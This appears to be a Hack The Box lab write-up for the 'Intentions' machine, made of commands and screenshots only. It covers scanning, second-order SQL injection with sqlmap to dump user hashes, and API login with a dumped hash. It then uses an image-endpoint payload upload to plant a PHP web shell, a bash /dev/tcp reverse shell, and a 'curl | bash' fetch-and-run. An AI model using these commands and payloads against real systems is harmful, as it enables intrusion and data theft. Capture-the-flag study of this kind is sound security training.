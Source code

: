 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.220
```
![image](https://github.com/regarmulia/HTB/assets/33616880/528dff0c-5310-4215-a2d5-7be40b47e7bd)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://intentions.htb/FUZZ -fs 162 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7e5bb805-89c5-4842-a466-280fab8a28f3)

```
registration
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a12ee51-5c45-49b3-8cff-a1730160b60d)


```
sqlmap -r req1.txt --batch
sqlmap -r req2b.txt --batch
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a41968e9-a125-4022-9554-7a2015c569a3)


![image](https://github.com/regarmulia/HTB/assets/33616880/a8183c38-7b4f-423c-8661-ca351f473565)


![image](https://github.com/regarmulia/HTB/assets/33616880/318256aa-4f54-4605-b7d5-2b4add64a990)



```
sqlmap -r req1.txt --second-req=req2.txt --batch --tamper=space2comment
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1a7c8a8c-c45e-4474-86ac-090c34b7db0e)


![image](https://github.com/regarmulia/HTB/assets/33616880/806ea88f-c009-46ad-95b3-92d8e9cd2c79)


```
sqlmap -r updateGenresRequest --second-req=fetchFeedRequest --batch --tamper=space2comment --tables
```
![image](https://github.com/regarmulia/HTB/assets/33616880/230307ac-31be-47bc-9385-19d400791dd8)


```
sqlmap -r req1b.txt --second-req=req2b.txt --batch --tamper=space2comment -T users --dump
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0fa022ca-bc8b-4cfb-9d89-05da8947f30d)


```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -t 100 -u http://intentions.htb/api/v2/auth/ -b 403,404
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a8a78134-9bdc-4b0b-9bcd-75725f2578f4)


```
http://10.10.11.220/api/v2/auth/login
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/94443e9d-fda1-424e-aa75-2bc33dbccf6e)


![image](https://github.com/regarmulia/HTB/assets/33616880/91adcde2-ab47-4d10-8890-016e7d0e6534)


```
curl -d 'email=steve@intentions.htb&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://intentions.htb/api/v2/auth/login
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a740f795-07cd-49c5-b0fa-4cba7ec0a070)


![image](https://github.com/regarmulia/HTB/assets/33616880/50514396-8dea-43e8-8654-ee351d81958b)


```
http://10.10.11.220/
http://intentions.htb/api/v2/auth/login
Edited: v2, hash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/20c9ec85-1a6a-4f92-b883-011609a50140)


![image](https://github.com/regarmulia/HTB/assets/33616880/9bde9358-3c79-4186-9cbc-63ebb13ec344)


```
http://intentions.htb/admin#/
http://intentions.htb/api/v2/admin/image/modify
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ce76950b-7767-47dd-a328-7d7953ee15f9)


![image](https://github.com/regarmulia/HTB/assets/33616880/0b6871de-0e54-44c1-9d14-27943f81f53b)


![image](https://github.com/regarmulia/HTB/assets/33616880/788c8136-6a8f-4715-95b9-e558c5b1a819)


```
python3 -m http.server 80
http://intentions.htb/api/v2/admin/image/modify
"path":"http://10.10.14.6/test”
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7446d685-b13d-437d-b177-a34ce4d105a0)


![image](https://github.com/regarmulia/HTB/assets/33616880/36a9081f-c32a-400f-b322-618f52ac3216)


```
curl 'http://intentions.htb/api/v2/admin/image/modify' -X POST -H 'X-XSRF-TOKEN: eyJpdiI6IjYxcmJueWtFTTNib0FFOXlnUTdFL1E9PSIsInZhbHVlIjoibGRsUUgzWmhaSVpjaDNwcEJ4QXBFQ29XRnlSUHhwdE4zMXdsN2ZUbTFPREt2dmUyRHdGRzlhWS94bGFEU0xZTk9TNjlDVENIUnlYbDEwTzFWZzcxWk40dUZ0VGJLNmtBQmhTVEVnMkFlSUl2M2thbGU5eEZDdTh2NkNvcTV5SEciLCJtYWMiOiI1OWIwZDFkOTc3OWJjZWZhNDkzYTNhMTYyMjIwNGZmZmJjY2NkZGI5ODdlODVlY2U2OTU5ZGU0MmFiNTE2NTM4IiwidGFnIjoiIn0=' -H 'Cookie: XSRF-TOKEN=eyJpdiI6IjYxcmJueWtFTTNib0FFOXlnUTdFL1E9PSIsInZhbHVlIjoibGRsUUgzWmhaSVpjaDNwcEJ4QXBFQ29XRnlSUHhwdE4zMXdsN2ZUbTFPREt2dmUyRHdGRzlhWS94bGFEU0xZTk9TNjlDVENIUnlYbDEwTzFWZzcxWk40dUZ0VGJLNmtBQmhTVEVnMkFlSUl2M2thbGU5eEZDdTh2NkNvcTV5SEciLCJtYWMiOiI1OWIwZDFkOTc3OWJjZWZhNDkzYTNhMTYyMjIwNGZmZmJjY2NkZGI5ODdlODVlY2U2OTU5ZGU0MmFiNTE2NTM4IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImVySlh1ZmlzOC9vRXdPaTRHK1A1RHc9PSIsInZhbHVlIjoicitCaW9NTDZNdnBzeVduN0dHek1Gd2gzMHV4ZmxFem9iOEZqUnJRUkg0YWhrdHIxNC9reU5pc3Z3LzhpeUNUdm5HMWhjSFZBZGowTnBvVVNzMnZPbTJGcHRIT205OUxIK2M4Z0RTeTFrVWpnQXlERU1ZOHlEUW9xbWZBV1pKZFQiLCJtYWMiOiJhMzg5NTdhOTQ0NjYwMjNhMWYyNThhYmM2NjljZmNhYWY0NTYzMWMwZGRiY2ZlZjQwYjAyN2Q3NTFmNWMwYWVhIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vaW50ZW50aW9ucy5odGIvYXBpL3YyL2F1dGgvbG9naW4iLCJpYXQiOjE3MTYzNjE1MTEsImV4cCI6MTcxNjM4MzExMSwibmJmIjoxNzE2MzYxNTExLCJqdGkiOiJZbGVJc0NkWnAzZXc0NWc2Iiwic3ViIjoiMSIsInBydiI6IjIzYmQ1Yzg5NDlmNjAwYWRiMzllNzAxYzQwMDg3MmRiN2E1OTc2ZjcifQ.Y-yF7_2agtJjTqtFeEThuabmwzTvhDCFoq6tHt0l3zc' -F 'path=vid:msl:/tmp/php*' -F 'effect=asd' -F file=@payload.msl
http://intentions.htb/storage/rce.php?c=ls
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c9c6203b-fe5d-4877-ac23-646845ae13ff)


![image](https://github.com/regarmulia/HTB/assets/33616880/d1878460-5ead-4c80-b142-42758ed435ac)


```
/bin/bash -i >& /dev/tcp/10.10.14.6/9001 0>&1
nc -nlvp 9001
http://intentions.htb/storage/rce.php?c=curl%2010.10.14.6/shell|bash
```
![image](https://github.com/regarmulia/HTB/assets/33616880/a087ac9e-afc2-423c-ac18-cb36c5d1f97c)

![image](https://github.com/regarmulia/HTB/assets/33616880/cd0cd12f-2df6-49c2-a38e-d4c5ceb77159)

![image](https://github.com/regarmulia/HTB/assets/33616880/c633d585-805d-4e35-8053-fd525fe104e3)


```
ls –la
git log –p
git config --global --add safe.directory /var/www/html/intentions
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f7596d08-39a1-4d35-b979-c91fb211ed4d)

